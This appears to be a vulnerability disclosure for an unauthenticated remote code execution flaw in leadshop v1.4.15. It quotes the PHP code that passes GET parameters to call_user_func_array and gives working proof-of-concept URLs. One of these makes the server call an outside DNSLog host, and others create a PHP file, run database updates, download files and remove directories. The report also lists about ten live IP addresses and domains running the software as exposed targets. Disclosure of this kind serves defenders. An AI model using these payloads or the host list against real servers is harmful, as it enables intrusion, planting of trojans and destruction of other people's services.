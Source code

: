 There is an RCE vulnerability in qmpaas/leadshop(https://github.com/qmpaas/leadshop )
-
Description
-
There is an RCE vulnerability in qmpaas/leadshop (https://github.com/qmpaas/leadshop) (v1.4.15). An attacker can access the file leadshop.php and call any existing function through GET to control the target host.  
The vulnerability is in the leadshop/web/leadshop.php[27-61] file  

```  
 public function run()  
    {  
        //读取参数数据  
        $include = isset($_GET['include']) ? $_GET['include'] : "";  
        $data    = isset($_GET['data']) ? $_GET['data'] : "";  
        $meta    = isset($_GET['meta']) ? $_GET['meta'] : "";  
        //执行数据方法  
        if ($include) {  
            return call_user_func_array([$this, $include], [$meta, $data]);  
        } else {  
            //用于判断是否非法操作  
            $token = isset($_GET['token']) ? $_GET['token'] : "";  
            $html  = get_oss_url('index.html');  
            //判断锁文件是否存在，存在则是要执行更新  
            if (@file_exists(dirname(__DIR__) . "/install.lock")) {  
                if (@file_get_contents(dirname(__DIR__) . "/install.lock") === $token) {  
                    if (!isset($_SESSION['self_update'])) {  
                        //执行更新自身  
                        $this->SilentSelfUpdate();  
                    }  
                    //执行更新操作  
                    $version = get_version();  
                    $body    = $this->DownloadFile($html);  
                    echo str_replace('{$version}', $version, $body);  
                } else {  
                    die("检测到非法Token，请登录后台进入更新界面");  
                }  
            } else {  
                $version = get_version();  
                $body    = $this->DownloadFile($html);  
                echo str_replace('{$version}', $version, $body);  
            }  
        }  

    }  
```
The ```call_user_func_array``` function is used directly, and $include, $data, and $meta receive get parameters, which allows us to run all functions in this file (parameters less than or equal to 2), such as:  
HttpGet (http access: poc: ```https://demo.leadshop.vip/leadshop.php?include=HttpGet&meta=6nup69.dnslog.cn```),  
ToMkdir (Create a file with content 1 and file name 1: poc: ```https://demo.leadshop.vip/leadshop.php?include=ToMkdir&meta=1&data=1```),  
UpdateSql (perform database update: poc: ```https://demo.leadshop.vip/leadshop.php?include=UpdateSql```),  
DownloadFile (download file: poc: 
```https://demo.leadshop.vip/leadshop.php?include=DownloadFile&meta=www.baidu.com/img/flexible/logo/pc/peak-result.png```),  
RemoveDir (remove directory: poc: 
```https://demo.leadshop.vip/leadshop.php?include=RemoveDir&meta=[path]```)  
-
Proof of Concept:
-
Poc：
(This url is applied from DNSLog(http://dnslog.cn/) in advance. Click "Get SubDomain", access the poc, and click "Refresh Record" to Refresh.)  
```
https://demo.leadshop.vip/leadshop.php?include=HttpGet&meta=6nup69.dnslog.cn  
```
DNSLog picture:  
![img](DNSLog.png)

```
http://example.org/leadshop.php?include=ToMkdir&meta=orobos.php&data=1
```
file picture:  
![img](tomkdir.PNG)

-
Impact
-
Attackers can call any existing functions at will, control the target server to access, download, create files, delete files, etc.  
Access may make the server a dos server.  
Download, so that an attacker can download the PHP Trojan to the server.  
Creating and deleting will destroy normal services.  
More than ten IPs are using this service(Fofa Search:"Powered By Leadshop © 2021").  
```
https://8.141.175.3
http://www.huatianlinye.com
https://39.107.102.163
https://42.193.253.224
https://store.mianhuain.com
http://shop.yongzhitang.com
https://101.201.209.92
http://119.3.229.175:7788
https://101.200.231.65
https://zhangtong.store.mianhuain.com
```
-
Occurrences
-
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L27
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L35
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L103
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L304
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L328
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L349
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L395
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L444
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L477
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L495
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L509